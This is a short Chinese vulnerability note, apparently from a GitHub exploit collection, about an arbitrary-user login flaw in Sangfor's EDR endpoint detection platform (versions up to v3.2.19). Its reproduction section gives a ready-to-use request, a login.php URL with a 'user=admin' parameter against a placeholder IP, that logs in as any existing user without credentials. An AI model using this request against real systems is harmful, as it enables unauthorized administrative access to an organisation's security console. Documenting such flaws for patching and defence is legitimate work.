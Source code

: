 # 深信服后台任意用户登陆漏洞

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，登录任意用户

## 影响版本

> [!NOTE]
>
> EDR <= v3.2.19

## 漏洞复现

https://xxx.xxx.xxx.xxx/ui/login.php?user=admin

> [!NOTE]
>
> 注意最后的admin需要为存在的用户名

./resource/image/sxf-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)